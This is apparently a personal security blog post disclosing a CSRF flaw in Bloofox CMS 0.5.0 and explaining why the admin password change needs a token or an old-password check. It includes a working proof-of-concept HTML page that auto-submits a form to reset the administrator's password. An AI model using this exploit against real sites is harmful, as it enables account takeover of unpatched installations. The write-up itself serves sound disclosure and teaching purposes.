 ```yaml
---
layout: post
title:	"Bloofox CMS 0.5.0 CSRF Change Administrator Password"
date:	2018-12-28 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - vuln_writeup
---
```

<head>
	<title> Bloofox CMS 0.5.0 CSRF Change Administrator Password</title>
</head>
![Screenshot]({{ site.baseurl }}/images/posts/2017/bloofox-cms/logo.jpg)


# i. Introduction

Bloofox is a Content Management System (CMS), which allows users to manage websites. Bloofox is very simple, yet powerful.

As with any CMS, Bloofox is riddled with bugs. As soon as functions such as managing users, website content; it opens up a huge attack surface on the application.

On May 21, 2018, Bloofox CMS has reached its end of life, which means any existing bugs will not be fixed, and all support will be stopped.

# ii. Summary

To read an in-depth summary of how CSRF works, and how it can be protected against, check out the summary section of this post: https://m-q-t.github.io/notes/zeuscart-csrf/

# iii. Exploiting Bloofox

It is a great practice for an application to issue CSRF tokens whenever a form is submitted.

However, in this case Bloofox can avoid the CSRF by not having to issue tokens.

How? Bloofox does not make the Administrator confirm their old password when setting a new password for themselves. Which makes a bit of sense, due to the fact if the user is an Administrator they should be able to change passwords.

Though for a high privileged account such as an Administrator, it is generally a great idea to have the administrator confirm their old password when changing it. If the administrator truly forgot their password and cannot change it, they can always go through the backend (such as updating their password in the database).

Due to Bloofox not having the Administrator confirm their password, and not issuing any tokens to make sure the form is valid, an attacker can send a link to the Administrator. Once the link is clicked, the request will be sent to the application to change the password to the attacker's choice.

PoC.html:
```text
<html>
<body>
<form method="post" action="http://localhost/admin/index.php?mode=user&action=edit" enctype="multipart/form-data">
    <input type="hidden" name="username" value="admin">
    <input type="hidden" name="password" value="CHANGEPASSWORD">
    <input type="hidden" name="pwdconfirm" value="CHANGEPASSWORD">
    <input type="hidden" name="3" value="Admin">
    <input type="hidden" name="blocked" value="0">
    <input type="hidden" name="deleted" value="0">
    <input type="hidden" name="status" value="1">
    <input type="hidden" name="login_page" value="0">
    <input type="hidden" name="userid" value="1">
    <input type="hidden" name="send" value="Save">
</form>
<script>document.forms[0].submit();</script>
</body>
</html>
```

When the Administrator clicks the link, they will see a blank page but a request will be sent to the server, and change the Administrator's password to whatever they set in the form.


# iv. Conclusion

In conclusion, like I have mentioned earlier, older applications are a great way to practice some bug hunting methodology and build foundation. It is true that newer applications implement more secure practices, though the foundation in the end is pretty much the same.


Thank you for reading.

~~~
Sources:
https://m-q-t.github.io/notes/zeuscart-csrf/
~~~
